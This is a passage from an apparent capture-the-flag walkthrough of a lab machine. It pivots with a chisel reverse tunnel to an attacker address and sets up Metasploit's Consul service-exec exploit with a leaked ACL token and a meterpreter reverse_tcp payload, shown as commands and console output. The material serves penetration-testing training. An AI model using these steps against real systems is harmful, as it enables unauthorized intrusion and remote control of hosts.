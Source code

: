 To solve this with metasploit we can use the ACL token we found earlier in the .git files and configure the options.

1st lets set up a chisel server so we can forward our data from the host computer to the chisel server, to the local host. AKA pivoting.

Transfer chisel to the victim computer and set it up. (Link below to chisel download)

https://github.com/jpillora/chisel/releases

```console
└─$ chisel server --reverse --port 1235
2022/10/05 11:41:25 server: Reverse tunnelling enabled
2022/10/05 11:41:25 server: Fingerprint uJMyaBsdcjYGgXGDlPhOS2iV5RpiTU7tJ5IjmXTUEL0=
2022/10/05 11:41:25 server: Listening on http://0.0.0.0:1235
2022/10/05 11:42:45 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/10/05 11:42:45 server: session#1: tun: proxy#R:8500=>8500: Listening
```
```console
developer@ambassador:/tmp$ ./chisel2 client 10.10.16.24:1235 R:8500:127.0.0.1:8500
2022/10/05 16:42:30 client: Connecting to ws://10.10.16.24:1235
2022/10/05 16:42:31 client: Connected (Latency 30.262281ms)
```
Set up our options for the exploit.

Note: I originally tried installing a more recent module of this exploit but it did not work.

```console
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> options

Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   ACL_TOKEN  bb03b43b-1d81-d62  no        Consul Agent ACL token
              b-24b5-39540ee469
              b5
   Proxies                       no        A proxy chain of format typ
                                           e:host:port[,type:host:port
                                           ][...]
   RHOSTS     127.0.0.1          yes       The target host(s), see htt
                                           ps://github.com/rapid7/meta
                                           sploit-framework/wiki/Using
                                           -Metasploit
   RPORT      8500               yes       The target port (TCP)
   SRVHOST    0.0.0.0            yes       The local host or network i
                                           nterface to listen on. This
                                            must be an address on the
                                           local machine or 0.0.0.0 to
                                            listen on all addresses.
   SRVPORT    8080               yes       The local port to listen on
                                           .
   SSL        false              no        Negotiate SSL/TLS for outgo
                                           ing connections
   SSLCert                       no        Path to a custom SSL certif
                                           icate (default is randomly
                                           generated)
   TARGETURI  /                  yes       The base path
   URIPATH                       no        The URI to use for this exp
                                           loit (default is random)
   VHOST                         no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```